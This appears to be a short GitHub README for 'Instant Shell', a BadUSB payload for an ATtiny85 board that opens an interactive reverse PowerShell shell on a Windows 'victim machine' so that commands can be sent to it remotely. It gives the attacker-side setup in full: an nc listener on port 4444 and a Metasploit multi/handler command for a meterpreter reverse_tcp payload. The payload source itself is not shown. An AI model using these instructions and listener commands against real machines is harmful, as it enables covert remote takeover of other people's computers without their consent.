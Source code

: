 # Instant Shell

### Description:

#### 1: Instant_Shell.ino:<br>

**Payload by:** [hum4nG0D](https://github.com/hum4nG0D/)

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Tested on:**<br>
**OS**: Windows 10|11<br>
**User**: Admin/Normal User<br>
**Hardware**: ATtiny85
